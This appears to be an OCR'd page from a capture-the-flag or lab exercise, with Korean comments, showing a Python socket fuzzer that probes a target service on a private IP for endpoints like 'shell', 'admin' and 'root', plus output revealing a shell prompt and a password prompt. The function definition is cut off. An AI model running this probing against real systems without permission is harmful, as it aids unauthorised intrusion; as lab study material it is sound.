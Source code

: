 ```py
# 🔹 테스트할 잠재적인 엔드포인트 리스트 정의
endpoint_list = [
    "some_endpoint",  # 정상적인 엔드포인트로 예상됨
    "shell",          # 셸 접근 시도
    "admin",          # 관리자 권한 요청 시도
    "backup",         # 백업 관련 기능 탐색
    "reset",          # 초기화 기능 테스트
    "login",          # 로그인 엔드포인트
    "help",           # 도움말 엔드포인트
    "root",           # 루트 접근 시도
    "register",       # 회원가입 시도
    "old"             # 이전 버전이나 숨겨진 기능 탐색
]

# 🔹 대상 서버 IP 및 포트 설정 (실제 환경에 맞게 수정 필요)
target_ip = "10.10.247.143"
target_port = 8000

# 🔹 fuzzing 실행
fuzz_endpoints(target_ip, target_port, endpoint_list)

```

Testing: some_endpoint
Response from some_endpoint: name 'some_endpoint' is not defined

Testing: shell
Response from shell: $

Testing: admin
Response from admin: Password:

Testing: backup
Response from backup: name 'backup' is not defined

Testing: reset
Response from reset: name 'reset' is not defined

Testing: login
Response from login: name 'login' is not defined

Testing: help
Response from help:

Testing: root
Response from root: name 'root' is not defined

Testing: register
Response from register: name 'register' is not defined

Testing: old
Response from old: name 'old' is not defined

```py
import socket  # 소켓 통신을 위한 표준 라이브러리
import os

def fuzz_endpoints(ip, port, endpoints):
    for endpoint in endpoints:
        try:
            client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client_socket.connect((ip, port))

            print(f"Testing: {endpoint}")
            client_socket.sendall(endpoint.encode() + b'\n')
            response = client_socket.recv(1024)
            print(f"Response from {endpoint}: {response.decode()}\n")

```